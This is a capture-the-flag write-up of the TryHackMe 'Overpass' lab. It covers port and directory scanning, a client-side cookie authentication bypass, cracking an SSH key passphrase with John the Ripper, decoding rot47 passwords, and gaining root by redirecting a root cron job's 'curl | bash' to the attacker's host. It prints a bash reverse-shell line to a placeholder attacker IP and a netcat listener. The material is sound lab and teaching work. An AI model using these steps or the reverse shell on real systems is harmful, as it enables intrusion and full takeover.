





## Nmap: 
---
```bash
nmap -T4 -A -p - 10.114.178.169 -v -oN nmap
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a0:51:d9:b5:eb:65:e6:12:c8:69:0d:5b:36:82:7b:64 (RSA)
|   256 3d:cd:24:95:d1:3f:4d:2e:31:05:81:ad:09:70:66:48 (ECDSA)
|_  256 74:32:1a:cc:9b:28:bd:d6:5e:b7:f2:ff:62:a4:0d:35 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- we see that `SSH` is open and that a `webserver` is running 
- lets open up the `website` 
## Webserver: 
---
- when we open up the `site`, we see this: 


- so some people created a `password manager` that we can download 
- lets navigate to `Downloads` 



- the most interesting thing is the `Source Code`, so lets download it
## Source Code: 
---
- the most interesting part of the `Source Code` was this function: 
```go
//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters-example
func rot47(input string) string {
        var result []string
        for i := range input[:len(input)] {
                j := int(input[i])
                if (j >= 33) && (j <= 126) {
                        result = append(result, string(rune(33+((j+14)%94))))
                } else {
                        result = append(result, string(input[i]))
                }
        }
        return strings.Join(result, "")
}
```
- so now we know how there did their encryption
- lets remember this, maybe we need it later 
- lets go back to the `webserver` and start a `gobuster`-scan 
## Gobuster: 
---
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.114.178.169/ -o gobuster/first_enum
```

```bash
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]
/render/https://www.google.com (Status: 301) [Size: 0] [--> /render/https:/www.google.com]
```
- lets take a look at `admin` 
## Bypassing the Authentication:
---
- in there we can find a `login.js` that gets imported:
```javascript
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
- when we look at the `login` function, we can see that our input gets send to `/api/login` and the result gets stored in `statusOrCookie` 
- then the code is just checking if `statusOrCookie` is equal to `Incorrect credentials`
- if it isn't a `cookie` is set 

- so what we could try is to set `SessionToken` to any value except `Incorrect credentials`:


- after I reloaded the site, I saw that we indeed bypassed the `authentication`: 

- lets save the `private` key and try to login with the username: `james` 
- before you try to login remember to set the permissions of the key to `600` with `chmod` 

```bash
erik@Debian:~/Desktop/TryHackMe/Overpass$ ssh -i id_rsa james@10.114.178.169
The authenticity of host '10.114.178.169 (10.114.178.169)' can't be established.
ED25519 key fingerprint is SHA256:24qXCJC7nbL79CDHSvYn9eAMVdIWwl0xYB0rYgC8Af8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.114.178.169' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```
- so we need a `passkey`, lets use `John the Ripper`  

- first we need to convert the `private` key to an hash with `ssh2john`: 
```bash
python3 ssh2john.py id_rsa > hash
```

- after this we can start the cracking: 
```bash
john --wordlist=/usr/share/rockyou.txt hash
```

- and we got an hit:
```bash
<Redacted>          (id_rsa)
```
## user.txt: 
---
- we find the `user.txt` in jame's `home-directory`: 
```bash
thm{<Redacted>}
```
## root.txt: 
---
- we also find a `.overpass` in jame's `home-directory`: 
```bash
,LQ?2>6QiQ$JDE6>Q[<Redacted>
```

- because we analyzed the `source-code` we know that they used `rot47` to encrypt the passwords 
- lets decode it with `CyberChef`: 
```bash
[{"name":"System","pass":"<Redacted>"}]
```

- after that I searched for anything we could abuse to get a `root-shell` and i found this in `/etc/crontab`: 
```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- so every minute a `buildscript` is getting executed 
- lets look if we can change the `/etc/hosts` file, because if we can, we could change the `ip-adress` that is connected to the `domain` to our `ip`

```bash
james@ip-10-114-178-169:/$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```
- so we can change it, but before we put our own `ip` in there, lets create the same `project-structure` as here: `overpass.thm/downloads/src/buildscript.sh` but locally: 
```bash
erik@Debian:~/Desktop/TryHackMe/Overpass$ mkdir downloads
erik@Debian:~/Desktop/TryHackMe/Overpass$ cd downloads/
erik@Debian:~/Desktop/TryHackMe/Overpass/downloads$ mkdir src
erik@Debian:~/Desktop/TryHackMe/Overpass/downloads$ cd src
erik@Debian:~/Desktop/TryHackMe/Overpass/downloads/src$ touch buildscript.sh
```

- after this we can create an `evil` buildscript locally: 
```bash
echo "/bin/bash -i >& /dev/tcp/[Attacker-IP]/1234 0>&1" > buildscript.sh
```

- lets start a listener with `netcat` locally: 
```bash
nc -lnvp 1234
```

-  now we can put our own `ip` in `/etc/hosts`: 
```bash
james@ip-10-114-178-169:/etc$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
192.168.132.187 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```



- so I waited one minute and got a `root-shell`: 
```bash
erik@Debian:~/Desktop/TryHackMe/Overpass$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.114.178.169 49468
bash: cannot set terminal process group (6401): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-114-178-169:~#
```

- now we can read the `root.txt`: 
```bash
thm{<Redacted>}
```